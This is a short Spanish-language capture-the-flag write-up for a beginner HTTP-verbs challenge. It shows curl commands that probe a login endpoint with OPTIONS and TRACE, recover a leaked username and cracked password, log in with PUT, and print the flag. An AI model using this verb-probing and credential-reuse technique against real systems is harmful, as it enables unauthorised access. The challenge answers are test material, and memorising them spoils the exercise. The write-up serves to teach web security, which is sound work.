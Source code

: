 # Begginer / HTTP_Specialist

Buscamos los metodos disponibles para el login

`curl -X 'OPTIONS' https://http-verbs.ctf.cert.unlp.edu.ar/login`

Probamos con TRACE

`curl -X TRACE https://http-verbs.ctf.cert.unlp.edu.ar/login`

Devuelve un texto en base64 y un hash
+ El texto decodificado es el usuario: hugo
+ El hash crackeado es la contraseña: password123

No devuelve nada con un metodo POST, asi que probamos con PUT y obtenemos la flag

`curl -X PUT -d "username=hugo&password=password123" https://http-verbs.ctf.cert.unlp.edu.ar/login`

`flag{TR4C3_Th3_HttP_V3rbs}`
